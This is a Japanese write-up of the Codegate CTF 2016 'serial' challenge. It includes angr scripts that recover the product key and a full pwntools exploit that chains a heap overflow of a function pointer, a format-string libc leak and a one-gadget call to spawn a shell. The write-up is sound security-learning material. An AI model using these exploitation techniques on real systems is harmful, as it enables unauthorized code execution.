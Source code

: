 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/10/23/codegate-ctf-2016-serial/
date: "2016-10-23T00:50:29+09:00"
tags: [ "ctf", "codegate-ctf", "pwn", "angr" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/codegate-ctf-2016/pwn/serial-444" ]
---
```


# Codegate CTF 2016 : serial

## problem

``` sh
$ file ./serial
./serial: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=178aaa6576923592e7fc8534fd8cb21d5f6c5cdb, stripped

$ ./serial
input product key: 615066814080
Correct!
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> hoge
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 1
insert >> fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 3
func : 0x40096e
0. hoge
1. fuga
Smash me!
1. Add 2. Remove 3. Dump 4. Quit
choice >> 4
bye
```

## solution

まず最初に`input product key: `と聞かれる。
angrで殴れば倒せる。この部分は後に効いてこないので忘れてよい。

note管理系のプログラム。
heap上に以下の配列が確保される。chunkそのものもoverflowしているが、他に`malloc`も`free`もないのでここは攻撃不可能。

``` c
struct note_t {
    char content[0x18]; // 0x0
    void (*func)(node_t *) ; // 0x18
}; // 0x20
```

`1. Add`で`content`にoverflowがあり、自身の`func`を書き換えられる。
`3. Dump`で先頭noteの`func`が呼ばれるので、fsaから適当にすればよい。
主なbofはheap上なので`printf`の引数が問題だが、`choice >> `で読んだときのごみがstackに残っているので利用できるし、`argv[0]`あたりも使える。

## implementation

### product key (愚直)

最低限の`find`/`avoid`のみを指定した場合。
$10$分ぐらいかかるが解は出る。

``` python
#!/usr/bin/env python2
import angr

number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.entry_state()
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print 'found', path
    print repr(path.state.posix.dumps(1))
    print repr(path.state.posix.dumps(0))
```

### product key (まとも)

入力を直接メモリに載せ、目的の関数のみを直接実行する場合。
$3$秒で終わる。

``` python
#!/usr/bin/env python2
import angr

key_length = 12
check_function = 0x400cbb
address = 0x602000 + 0x900
number_only = 0x400d22
wrong = 0x400e78
correct = 0x400e5c

p = angr.Project("./serial")
state = p.factory.blank_state(addr=check_function)
key = state.se.BVS(name="key", size=key_length*8)
state.memory.store(address, key)
state.regs.rdi = address
pathgroup = p.factory.path_group(state)
pathgroup.explore(find=(correct, ), avoid=(number_only, wrong))

for path in pathgroup.found:
    print repr(path.state.se.any_str(key))
```

### shell

思考停止してone-gadget RCE投げ込むの、悪影響ありそう。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('./serial')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./serial')

p.recvuntil('input product key: ')
p.sendline('615066814080')

def add(s):
    p.recvuntil('choice >> ')
    p.sendline('1')
    p.recvuntil('insert >> ')
    p.send(s)
def remove(i):
    p.recvuntil('choice >> ')
    p.sendline('2')
    p.recvuntil('choice>> ')
    p.sendline(str(i))
def dump(tail='', result=True):
    p.recvuntil('choice >> ')
    p.sendline('3' + tail)
    if result:
        assert p.recvline().startswith('func : ')
        return p.recvuntil('Smash me!\n', drop=True)

# format-string attack
add('%13$s'.ljust(0x18, ' ') + p64(elf.plt['printf']).rstrip('\0') + '\n')
t = dump(' ' * 7 + p64(elf.got['setvbuf']))
remove(0)
setvbuf = u64(t.split('    ')[0].ljust(8, '\0'))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('libc base: %#x', libc_base)

# one-gadget RCE on Ubuntu 16.04
add(' ' * 0x18 + p64(libc_base + 0xf0897).rstrip('\0') + '\n')
dump(result=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
